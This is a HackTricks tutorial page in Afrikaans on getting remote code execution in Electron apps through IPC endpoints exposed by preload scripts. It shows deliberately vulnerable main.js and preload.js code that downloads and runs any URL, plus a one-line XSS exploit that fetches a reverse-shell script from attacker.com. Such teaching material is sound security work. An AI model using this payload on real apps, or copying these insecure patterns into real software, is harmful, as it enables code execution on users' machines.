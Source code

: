 # Electron contextIsolation RCE via IPC

{% hint style="success" %}
Leer & oefen AWS Hacking:<img src="../../../.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/arte.png" alt="" data-size="line">\
Leer & oefen GCP Hacking: <img src="../../../.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Ondersteun HackTricks</summary>

* Kyk na die [**subskripsie planne**](https://github.com/sponsors/carlospolop)!
* **Sluit aan by die** 💬 [**Discord groep**](https://discord.gg/hRep4RUj7f) of die [**telegram groep**](https://t.me/peass) of **volg** ons op **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Deel hacking truuks deur PRs in te dien na die** [**HackTricks**](https://github.com/carlospolop/hacktricks) en [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

As die preload skrip 'n IPC eindpunt van die main.js lêer blootstel, sal die renderer proses toegang daartoe hê en as dit kwesbaar is, kan 'n RCE moontlik wees.

**Die meeste van hierdie voorbeelde is hier geneem** [**https://www.youtube.com/watch?v=xILfQGkLXQo**](https://www.youtube.com/watch?v=xILfQGkLXQo). Kyk na die video vir verdere inligting.

## Voorbeeld 0

Voorbeeld van [https://speakerdeck.com/masatokinugawa/how-i-hacked-microsoft-teams-and-got-150000-dollars-in-pwn2own?slide=21](https://speakerdeck.com/masatokinugawa/how-i-hacked-microsoft-teams-and-got-150000-dollars-in-pwn2own?slide=21) (jy het die volle voorbeeld van hoe MS Teams XSS tot RCE misbruik het in daardie skyfies, dit is net 'n baie basiese voorbeeld):

<figure><img src="../../../.gitbook/assets/image (9) (1) (1).png" alt=""><figcaption></figcaption></figure>

## Voorbeeld 1

Kyk hoe die `main.js` luister op `getUpdate` en sal **enige URL** wat gegee word **aflaai en uitvoer**.\
Kyk ook hoe `preload.js` **enige IPC** gebeurtenis van main **blootstel**.
```javascript
// Part of code of main.js
ipcMain.on('getUpdate', (event, url) => {
console.log('getUpdate: ' + url)
mainWindow.webContents.downloadURL(url)
mainWindow.download_url = url
});

mainWindow.webContents.session.on('will-download', (event, item, webContents) => {
console.log('downloads path=' + app.getPath('downloads'))
console.log('mainWindow.download_url=' + mainWindow.download_url);
url_parts = mainWindow.download_url.split('/')
filename = url_parts[url_parts.length-1]
mainWindow.downloadPath = app.getPath('downloads') + '/' + filename
console.log('downloadPath=' + mainWindow.downloadPath)
// Set the save path, making Electron not to prompt a save dialog.
item.setSavePath(mainWindow.downloadPath)

item.on('updated', (event, state) => {
if (state === 'interrupted') {
console.log('Download is interrupted but can be resumed')
}
else if (state === 'progressing') {
if (item.isPaused()) console.log('Download is paused')
else console.log(`Received bytes: ${item.getReceivedBytes()}`)
}
})

item.once('done', (event, state) => {
if (state === 'completed') {
console.log('Download successful, running update')
fs.chmodSync(mainWindow.downloadPath, 0755);
var child = require('child_process').execFile;
child(mainWindow.downloadPath, function(err, data) {
if (err) { console.error(err); return; }
console.log(data.toString());
});
}
else console.log(`Download failed: ${state}`)
})
})
```

```javascript
// Part of code of preload.js
window.electronSend = (event, data) => {
ipcRenderer.send(event, data);
};
```
Eksploiteer:
```html
<script>
electronSend("getUpdate","https://attacker.com/path/to/revshell.sh");
</script>
```
## Voorbeeld 2

As die preload-skrip direk aan die renderer 'n manier bied om `shell.openExternal` aan te roep, is dit moontlik om RCE te verkry.
```javascript
// Part of preload.js code
window.electronOpenInBrowser = (url) => {
shell.openExternal(url);
};
```
## Voorbeeld 3

As die preload-skrip maniere blootstel om heeltemal met die hoofproses te kommunikeer, sal 'n XSS in staat wees om enige gebeurtenis te stuur. Die impak hiervan hang af van wat die hoofproses blootstel in terme van IPC.
```javascript
window.electronListen = (event, cb) => {
ipcRenderer.on(event, cb);
};

window.electronSend = (event, data) => {
ipcRenderer.send(event, data);
};
```
{% hint style="success" %}
Leer & oefen AWS Hacking:<img src="../../../.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Opleiding AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/arte.png" alt="" data-size="line">\
Leer & oefen GCP Hacking: <img src="../../../.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Opleiding GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Ondersteun HackTricks</summary>

* Kyk na die [**subskripsieplanne**](https://github.com/sponsors/carlospolop)!
* **Sluit aan by die** 💬 [**Discord-groep**](https://discord.gg/hRep4RUj7f) of die [**telegram-groep**](https://t.me/peass) of **volg** ons op **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Deel hacking truuks deur PRs in te dien na die** [**HackTricks**](https://github.com/carlospolop/hacktricks) en [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}
